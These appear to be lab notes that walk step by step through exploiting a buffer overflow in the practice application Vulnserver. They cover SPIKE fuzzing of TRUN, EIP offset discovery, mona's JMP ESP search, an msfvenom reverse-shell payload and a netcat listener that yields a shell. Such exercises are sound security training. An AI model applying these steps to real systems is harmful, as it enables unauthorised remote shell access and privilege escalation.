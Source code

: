- Run Vulnserver.exe as administrator [If the **Windows Security Alert** window appears; click **Allow access**.]

- Minimize the vulnserver Cmd prompt and open IMMUNITY DEBUGGER, run the setup as administrator and install python with default settings.

- After Installing, Run Immunity Debugger as administrator.

- click **File** in the menu bar, and in the drop-down menu, click **Attach**,**Select process to attach** pop-up appears, click the **vulnserver** process and click **Attach** [if vulnserver is not available by default, then you can add manually by clicking Add instead of Attach].

- **Immunity Debugger** showing the **vulnerserver.exe** process window appears,Initially the process will be paused(BOTTOM RIGHT), to RUN - click on run program icon in the toolbar to run Immunity Debugger.

- In MATE Terminal,after escalating to root user and jumping to root directory,**nc -nv 10.10.10.10 9999** will get you into VulnServer [HELP for valid cmnds].

- Generating spike templates and perform spiking (`the package formats used for communicating with the vulnerable server. They are useful for testing and identifying functions vulnerable to buffer overflow exploitation`)

- To create a spike template for spiking on the STATS function, type **pluma stats.spk** and in text editor

**s_readline();**

**s_string(“STATS ”);**

**s_string_variable(“0”);** Save and Close the Script File

- **generic_send_tcp 10.10.10.10 9999 stats.spk 0 0** - to send packages to the vulnerable server. (where stats.spk is spike_script and 0 0 indicates SKIPVAR SKIPSTR).

- **Immunity Debugger** window, you can observe that the process status is still **Running**, which indicates that the STATS function is not vulnerable to buffer overflow. Now, we will repeat the same process with the TRUN function.

- type **pluma trun.spk** and press **Enter** and enter in MATE terminal.

**s_readline();**

**s_string(“TRUN ”);**

**s_string_variable(“0”);**

- **generic_send_tcp 10.10.10.10 9999 trun.spk 0 0** and press **Enter** to send the packages to the vulnerable server wheras here the process status is changed to paused, thus TRUN function of VUln server having buffer overflow and Overwriting the EIP register can allow us to gain shell access to the target system.

 ![[Pasted image 20220723014744.png]]

- After identifying the vulnerability, We need to perform Fuzzing to send a large amount of data to the target server.

- **Immunity Debugger** and click the **Run program** icon in the toolbar to run **Immunity Debugger**.

- The **Network** window appear in the places tab and then press **Ctrl+L**. The **Location** field appears. type **smb://[WindowsIP]** and press **Enter** to access **Windows 10** shared folders.

- **chmod +x fuzz.py** and press **Enter** to change the mode to execute the Python script.

-  type **./fuzz.py** and press **Enter** to run the Python fuzzing script against the target machine

- switch to the **Immunity Debugger** window and wait for the status to change from **Running** to **Paused**.

- As the vulnserver crashed due to overloading, we have to restart everything again.

- Through fuzzing, we have understood that we can overwrite the EIP register with 1 to 5100 bytes of data. Now, we will use the **pattern_create** Ruby tool to generate random bytes of data.

- **/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 13600** in MATE Terminal.

- it will generate some random piece of bytes for the given length by the user and copy the given piece to pluma findoff.py,A python script file appears,paste the copied code in the **offset** variable. and save it

-  **chmod +x findoff.py** and press **Enter** to change the mode to execute the Python script.

- type **./findoff.py** and press **Enter** to run the Python script to send the generated random bytes to the vulnerable server and after this Immunity Debugger window,EIP register is overwritten with random bytes.

- In a new terminal after getting root privilege and jumping to root directory,type **/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 20000 -q 386F4337**

-  A result appears, indicating that the identified EIP register is at an offset of **2003** bytes.

- Now as it is facing buffer overflow, again they both got crashed ,Thus relaunch again and run as administrator.

- In the **Terminal** window, type **chmod +x overwrite.py**,by this we are running the python script to overwrite the EIP register.

- **./overwrite.py** and press **Enter** to run the Python script to send the generated random bytes to the vulnerable server.

- Re-launch both **Immunity Debugger** and the vulnerable server as an administrator. Now, **Attach** the **vulnserver** process to **Immunity Debugger** and click the **Run program** icon in the toolbar to run **Immunity Debugger**.

- Now, before injecting the shellcode into the EIP register, first, we must identify bad characters that may cause issues in the shellcode

-  **Terminal** window, type **chmod +x badchars.py** and press **Enter** to change the mode to execute the Python script and type **./badchars.py** and press **Enter** to run the Python script to send the badchars along with the shellcode.

-  **ESP** register value in the top-right window. Right-click on the selected ESP register value and click the **Follow in Dump** option.

- left-corner window, you can observe that there are no badchars that cause problems in the shellcode

-  we need to identify the right module of the vulnerable server that is lacking memory protection. In **Immunity Debugger**, you can use scripts such as **mona.py** to identify modules that lack memory protection.

- **Immunity Debugger** window. In the text field present at bottom of the window, type **!mona modules**

- You can observe that there is no memory protection for the module **essfunc.dll** and now we can exploit the module and inject the shellcode.

- In the **Terminal** window, type **/usr/share/metasploitframework/tools/exploit/nasm_shell.rb** after escalating to root and jumping to root directory.

-  **nasm** command line appears; type **JMP ESP** and press **Enter** and then The result appears, displaying the hex code of **JMP ESP**

- In the **Immunity Debugger** window, type **!mona find -s “\xff\xe4” -m essfunc.dll**.

- Relaunch both the applications and In the **Immunity Debugger** window, click the **Go to address in Disassembler icon**.

-  click on the **Run program** in the toolbar to run **Immunity Debugger**.

- , type **chmod +x jump.py**, and press **Enter** to change the mode to execute the Python script.

- type **./jump.py** and press **Enter** to execute the Python script.

-  **Immunity Debugger** window, you will observe that the EIP register has been overwritten with the return address of the vulnerable module and Re-launch the vulnerable server as an administrator.

- **msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b “\x00”**

- **Copy** the shellcode the code and Type **pluma shellcode.py**

- paste the copied in overflow section.

- Netcat command to listen on port 4444 in MATE Terminal.

- **nc -nvlp 4444** and press **Enter**.

- Netcat will start listening on port **4444**

- Type **chmod +x shellcode.py** and press **Enter** to change the mode to execute the Python script and Type **./shellcode.py** to execute.

- shell access to the target vulnerable server has been established

- whoami,getuid,getsystem.